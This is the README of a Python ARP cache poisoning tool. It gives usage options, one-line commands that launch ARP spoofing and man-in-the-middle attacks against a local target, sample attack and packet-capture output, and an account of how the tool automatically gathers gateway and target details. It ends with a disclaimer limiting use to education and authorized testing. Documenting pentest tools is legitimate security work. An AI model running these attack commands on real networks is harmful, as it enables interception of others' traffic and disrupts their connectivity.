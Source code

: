 # Python 3 ARP Spoofing Tool

![Python Version](https://img.shields.io/badge/python-3.x-blue?style=for-the-badge&logo=python)
![OS](https://img.shields.io/badge/OS-GNU%2FLinux-red?style=for-the-badge&logo=linux)
[![CodeFactor Grade](https://img.shields.io/codefactor/grade/github/EONRaider/Arp-Spoofer?label=CodeFactor&logo=codefactor&style=for-the-badge)](https://www.codefactor.io/repository/github/eonraider/arp-spoofer)
[![License](https://img.shields.io/github/license/EONRaider/Packet-Sniffer?style=for-the-badge)](https://github.com/EONRaider/Packet-Sniffer/blob/master/LICENSE)

[![Reddit](https://img.shields.io/badge/Reddit-EONRaider-FF4500?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Discord](https://img.shields.io/badge/Discord-EONRaider-7289DA?style=flat-square&logo=discord)](https://discord.gg/KVjWBptv)
[![Twitter](https://img.shields.io/badge/Twitter-eon__raider-38A1F3?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

A pure-Python ARP Cache Poisoning (a.k.a. "ARP Spoofing") tool that leverages
a low-level assembly of Ethernet II frames and ARP packets.

This application maintains no dependencies on third-party modules and can be 
run by any Python 3.x interpreter.

## Installation

Simply clone this repository with `git clone` and execute the `arpspoof.py` file 
as described in the following **Usage** section.

```
user@host:~/DIR$ git clone https://github.com/EONRaider/Arp-Spoofer.git
```

## Usage
```
arpspoof.py [-h] [-i INTERFACE] [--attackermac MAC] [--gatemac MAC]
            [--targetmac MAC] [--gateip IP] [--interval TIME] [-d | -f]
            TARGET_IP

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  TARGET_IP                    IP address currently assigned to the target.

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface on the attacker machine to send packets
                        from.
  --attackermac MAC     MAC address of the NIC from which the attacker machine
                        will send the spoofed ARP packets.
  --gatemac MAC         MAC address of the NIC associated to the gateway.
  --targetmac MAC       MAC address of the NIC associated to the target.
  --gateip IP           IP address currently assigned to the gateway.
  --interval TIME       Time in between each transmission of spoofed ARP
                        packets (defaults to 0.5 seconds).
  --disassociate        Execute a disassociation attack in which a randomized
                        MAC address is set for the attacker machine,
                        effectively making the target host send packets to a
                        non-existent gateway.
  -f, --ipforward       Temporarily enable forwarding of IPv4 packets on the
                        attacker system until the next reboot. Set this to
                        intercept information between the target host and the
                        gateway, performing a man-in-the-middle attack.
                        Requires administrator privileges.
```


## Running the Application

#### METHOD I: "Too long, didn't read"
<table>
<tbody>
  <tr>
    <td>Objective</td>
    <td>Perform the attack with a single command and script-kid our way 
    to victory</td>
  </tr>
  <tr>
    <td>Execution</td>
    <td><b>sudo python3 arpspoof.py TARGET_IP -f</b></td>
  </tr>
</tbody>
</table>

#

#### METHOD II: Detailed Usage

<table>
<thead>
  <tr>
    <th colspan="2">Step 1 of 2</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td>Objective</td>
    <td>Perform an <a href="https://en.wikipedia.org/wiki/ARP_spoofing" 
    target="_blank" rel="noopener noreferrer">ARP Cache Poisoning</a> with 
    <a href="https://en.wikipedia.org/wiki/Man-in-the-middle_attack" 
    target="_blank" rel="noopener noreferrer">Man-in-the-middle (MITM)
    </a> attack against a target with IP address <b>10.0.1.6</b> on our 
    local network segment</td>
  </tr>
  <tr>
    <td>Execution</td>
    <td><b>sudo python3 arpspoof.py 10.0.1.6 -f</b></td>
  </tr>
  <tr>
    <td>Outcome</td>
    <td>Automatic configuration and subsequent transmission of spoofed ARP 
    packets until EOF signal (Ctrl-C). Refer to sample output below.</td>
  </tr>
  <tr>
    <td>Observations</td>
    <td>Notice how the remaining settings are automatically obtained, 
    including a setup for forwarding of IPv4 packets to enable a MITM 
    attack (set by the -f switch)</td>
  </tr>  
  </tbody>
</table>

- Sample Output

```
user@host:~$ sudo python3 arpspoof.py 10.0.1.6 -f
  
[>>>] ARP Spoofing configuration:
    [+] IPv4 Forwarding .....................True
    [+] Interface       .....................eth0
    [+] Attacker MAC    ........08:92:27:dc:3a:71
    [+] Gateway IP      .................10.0.1.1
    [+] Gateway MAC     ........52:93:d0:92:c5:06
    [+] Target IP       .................10.0.1.6
    [+] Target MAC      ........91:8b:28:93:af:07

[!] ARP packets ready. Execute the attack with these settings? (Y/N) y

[+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
```

<table>
<thead>
  <tr>
    <th colspan="2">Step 2 of 2</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td>Objective</td>
    <td>Check the traffic generated by the attack and make sure it is actually working</td>
  </tr>
  <tr>
    <td>Execution</td>
    <td>Use an inspection tool such as <a href="https://github.com/EONRaider/Packet-Sniffer" target="_blank" rel="noopener noreferrer">Network Packet Sniffer</a></td>
  </tr>
  <tr>
    <td>Outcome</td>
    <td>Refer to sample output below</td>
  </tr>
  <tr>
    <td>Observations</td>
    <td>Check that packets #5 and #6 map the gateway and target IP addresses to the attacker MAC address (meaning that the attack was successful)</td>
  </tr>
</tbody>
</table>

- Sample Output

```
[>] Packet #1 at 14:10:12:
    [+] MAC ......08:92:27:dc:3a:71 -> ff:ff:ff:ff:ff:ff
    [+] ARP Who has      10.0.1.6 ? -> Tell 10.0.1.5
[>] Packet #2 at 14:10:12:
    [+] MAC ......91:8b:28:93:af:07 -> 08:92:27:dc:3a:71
    [+] ARP ...............10.0.1.6 -> Is at 91:8b:28:93:af:07
[>] Packet #3 at 14:10:12:
    [+] MAC ......08:92:27:dc:3a:71 -> 91:8b:28:93:af:07
    [+] IPv4 ..............10.0.1.5 -> 10.0.1.6        | PROTO: UDP TTL: 64
    [+] UDP ..................52949 -> 54663
[>] Packet #4 at 14:10:12:
    [+] MAC ......91:8b:28:93:af:07 -> 08:92:27:dc:3a:71
    [+] IPv4 ..............10.0.1.6 -> 10.0.1.5        | PROTO: ICMP TTL: 64
    [+] ICMP ..............10.0.1.6 -> 10.0.1.5        | Type: OTHER
[>] Packet #5 at 14:10:18:
    [+] MAC ......08:92:27:dc:3a:71 -> 52:54:00:12:35:00
    [+] ARP ...............10.0.1.6 -> Is at 08:92:27:dc:3a:71
[>] Packet #6 at 14:10:18:
    [+] MAC ......08:92:27:dc:3a:71 -> 91:8b:28:93:af:07
    [+] ARP ...............10.0.1.1 -> Is at 08:92:27:dc:3a:71
```

*And that's it! The attack will persist until otherwise aborted.*

#

### But how is this possible?

The simplest command for this tool consists of
`sudo python3 arpspoof.py TARGET_IP`

Then where do the remaining settings such as Target MAC, Gateway IP and
Attacker MAC come from? How is IPv4 forwarding enabled?

A brief explanation can be found in the docstring of the `ARPSetupProxy`
class in the
[packets.py](https://github.com/EONRaider/Arp-Spoofer/blob/master/packets.py)
file:

> Performs a best-effort attempt to query the system and network for
information necessary to build the ARP attack packets. **It allows the
user to initiate an attack by simply supplying the target's IP
address**. *All other required settings are looked up from the
attacker system's ARP and routing tables and by probing ephemeral
ports on the target host.*

This tool prioritizes the automated gathering of all information
required to initiate the attack, releasing the Penetration Tester from
going through all the manual processes required by similar tools.

With that in mind we have that **the following operations are the ones 
executed by the application to obtain each setting:**
- `IPv4 Forwarding`: Execute an overwriting of the value 0 to 1 in the
  file `/proc/sys/net/ipv4/ip_forward`.
- `Interface`: Parse the attacker's routing table and look for
interfaces mapping valid routes to the gateway.
- `Attacker MAC`: Bind to interface and query its name from `socket`
- `Gateway IP`: Parse the attacker's routing table and find the route
with `0x0003` flag set.
- `Gateway MAC`: Parse the attacker's ARP table looking for devices
with `Gateway IP`.
- `Target MAC`: Send a UDP datagram with an empty byte string to a
random ephemeral port on the target system (effectively making the
attacker system execute an ARP request followed by an ICMP probe
to the broadcast address) and then reading the newly written
information from the ARP table.

## Legal Disclaimer

The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end-user's responsibility to obey all applicable local, state
and federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity and/or availability of
systems and their associated resources by leveraging the exploitation of known
or unknown vulnerabilities present in said systems, including, but not limited
to, the implementation of security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
